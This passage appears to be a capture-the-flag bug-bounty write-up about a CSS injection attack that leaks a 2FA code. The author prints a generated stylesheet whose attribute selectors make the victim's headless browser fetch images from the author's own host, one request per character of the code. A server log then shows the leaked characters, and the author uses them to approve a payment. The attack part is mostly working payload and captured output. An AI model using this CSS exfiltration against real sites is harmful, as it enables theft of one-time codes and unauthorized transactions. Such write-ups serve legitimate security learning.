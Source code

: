 And, nothing! After playing around a bit, I figured out the app must probably use one input field for each character. I generated a CSS file to take this into account:

```css
input[value^="0"]:nth-child(1) {background-image:url("https://foo.x.0xcc.ovh/1_0.jpg");}
input[value^="1"]:nth-child(1) {background-image:url("https://foo.x.0xcc.ovh/1_1.jpg");}
input[value^="2"]:nth-child(1) {background-image:url("https://foo.x.0xcc.ovh/1_2.jpg");}
...
input[value^="0"]:nth-child(2) {background-image:url("https://foo.x.0xcc.ovh/2_0.jpg");}
input[value^="1"]:nth-child(2) {background-image:url("https://foo.x.0xcc.ovh/2_1.jpg");}
input[value^="2"]:nth-child(2) {background-image:url("https://foo.x.0xcc.ovh/2_2.jpg");}
...
...
input[value^="x"]:nth-child(7) {background-image:url("https://foo.x.0xcc.ovh/7_x.jpg");}
input[value^="y"]:nth-child(7) {background-image:url("https://foo.x.0xcc.ovh/7_y.jpg");}
input[value^="z"]:nth-child(7) {background-image:url("https://foo.x.0xcc.ovh/7_z.jpg");}
```

I re-sent the POST request and bingo!

```
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /test.css HTTP/2.0" 200 46102 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /1_a.jpg HTTP/2.0" 404 176 "https://h1.x.0xcc.ovh/test.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /2_x.jpg HTTP/2.0" 404 176 "https://h1.x.0xcc.ovh/test.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /3_9.jpg HTTP/2.0" 404 176 "https://h1.x.0xcc.ovh/test.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /4_l.jpg HTTP/2.0" 404 176 "https://h1.x.0xcc.ovh/test.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /5_B.jpg HTTP/2.0" 404 176 "https://h1.x.0xcc.ovh/test.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /6_C.jpg HTTP/2.0" 404 176 "https://h1.x.0xcc.ovh/test.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
3.21.98.146 - - [02/Jun/2020:13:19:19 +0000] "GET /7_t.jpg HTTP/2.0" 404 176 "https://h1.x.0xcc.ovh/test.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
```

I then entered the 2FA code `ax9lBCt`, and the payment got processed:

 

{F853774}

The flag: ^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$

## Impact
